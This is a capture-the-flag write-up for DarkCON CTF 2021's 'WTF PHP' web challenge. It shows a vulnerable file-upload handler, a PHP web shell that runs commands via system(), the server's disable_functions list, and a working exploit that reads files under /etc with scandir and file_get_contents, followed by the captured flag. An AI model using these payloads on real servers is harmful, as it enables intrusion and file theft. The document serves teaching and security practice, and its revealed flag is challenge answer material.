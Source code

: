 # DarkCON CTF 2021 – WTF PHP

* **Category:** web
* **Points:** 269

## Challenge

> Your php function didnt work? maybe some info will help you xD PS: Flag is somewhere in /etc Note: This chall does not require any brute forcing
> 
> http://wtf-php.darkarmy.xyz/

## Solution

The website allows to upload a file. Analyzing the HTML you can discover an interesting comment containing a PHP snippet.

```html
<html>
   <body>
      <form action="" method="POST" enctype="multipart/form-data">
         <input type="file" name="fileData" />
         <input type="submit"/>
      </form>
   </body>
<!--
   if(isset($_FILES['fileData'])){
      if($_FILES['fileData']['size'] > 1048576){
         $errors='File size must be excately 1 MB';
      }

      if(empty($errors)==true){
        $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
        move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
        echo "File uploaded successfully\n";
        echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
      }else{
         echo $errors;
      }
   }
-->

</html>
```

The website returns you a link to the uploaded file, it renames the file with a random value preserving the extension. So, a PHP shell can be uploaded and visited executing its content.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><code>";
    echo system($_GET[c]);
    echo "</code>";
?>
```

Unfortunately the RCE doesn't work, but the text says:

> maybe some info will help you xD

So you can try to understand what's happening using `phpinfo()`.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><hr /><code>";
    echo system($_GET[c]);
    echo "</code><hr />";
    echo phpinfo();
?>
```

Some functions are disabled, you can see them under `disable_functions` section of `phpinfo()` output.

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,link,symlink,syslog,ld,mail,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,highlight_file,file,fopen,fread,var_dump,readfile
```

`scandir` and `file_get_contents` are not disabled and the flag is under `/etc`.

A simple [exploit](exploit.php) can be created and uploaded.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><hr />";
    $dir = "/etc/";
    $items = scandir($dir);
    foreach($items as $key => $value) {
        $file = $dir . $value;
        if(is_file($file)) {
            $file_content = file_get_contents($file);
            if(strpos($file_content, "darkCON{") !== false) {
                echo "<p>File name: $file</p><br />File content:<br /><code>";
                echo $file_content;
                echo "</code>";
            }
        }
    }
    echo "<hr />";
    echo phpinfo();
?>
```

The exploit output will be the following.

```
File name: /etc/f1@g.txt


File content:
darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
```